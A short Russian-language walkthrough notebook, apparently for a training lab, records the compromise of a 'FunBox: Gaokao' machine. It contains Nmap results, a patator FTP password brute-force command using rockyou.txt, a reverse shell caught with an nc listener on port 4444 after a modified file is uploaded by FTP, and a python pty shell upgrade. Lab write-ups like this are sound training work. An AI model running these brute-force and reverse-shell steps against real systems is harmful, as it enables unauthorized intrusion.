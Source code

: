 > [!tip]- Nmap
>  PORT     STATE SERVICE VERSION
21/tcp   open  ftp     ProFTPD 1.3.5e
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 ftp      ftp           169 Jun  5  2021 welcome.msg
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 48:39:31:22:fb:c2:03:44:a7:4e:c0:fa:b8:ad:2f:96 (RSA)
|   256 70:a7:74:5e:a3:79:60:28:1a:45:4c:ab:5c:e7:87:ad (ECDSA)
|_  256 9c:35:ce:f6:59:66:7f:ae:c4:d1:21:16:d5:aa:56:71 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Wellcome to Funbox: Gaokao !
3306/tcp open  mysql   MySQL 5.7.34-0ubuntu0.18.04.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=MySQL_Server_5.7.34_Auto_Generated_Server_Certificate
| Not valid before: 2021-06-05T15:15:30
|_Not valid after:  2031-06-03T15:15:30
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.34-0ubuntu0.18.04.1
|   Thread ID: 14
|   Capabilities flags: 65535
|   Some Capabilities: SwitchToSSLAfterHandshake, Speaks41ProtocolOld, ODBCClient, FoundRows, SupportsTransactions, DontAllowDatabaseTableColumn, InteractiveClient, Speaks41ProtocolNew, Support41Auth, SupportsCompression, IgnoreSpaceBeforeParenthesis, IgnoreSigpipes, LongColumnFlag, LongPassword, SupportsLoadDataLocal, ConnectWithDatabase, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: \x0F)\x0BaLM\x17\x18Q#\x7FS.{\x0CiL\x0BCm
|_  Auth Plugin Name: mysql_native_password
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

>[!tip]- mysql
> Host: 192.168.72.133 
 Port: 3306 
>DBName: skys_db
Tables:
TableName: user
Columns:
ColumnName: user
ColumnType: varchar(64)
 ColumnName: password
  ColumnType: varchar(64)


при подключение к apache никакой информации нет
при подключение к ftp (anonymous) видим приветственное сообщение 
![[Pasted image 20241004105309.png]]
В нем есть возможный логин/юзер для ftp сервера
Пробуем запустить брут patator ftp_login host=192.168.72.133 user=sky password=FILE0 0=Downloads/rockyou.txt -x ignore:mesg='Login incorrect.' -x ignore,reset,retry:code=500 
 и видим положительный результат [[Задачи Cyber ED/Vuln - FunBox/пароли+логины|пароли+логины]]
 качаем флаг на свою машину (ls, get user.flag) 
 изменяем файл user.flag на основной машине чтобы был reverse shell ![[Pasted image 20241004130003.png]]
 запускаем lftp sky@192.168.72.133 для облегчения жизни
 загружаем изменный файл (put user.flag),запускаем на основной машине nc -nvlp 4444 и запускаем cat user.flag
 В полученном обратном шелле делаем повышение python3 -c 'import pty;pty.spawn("/bin/bash")'

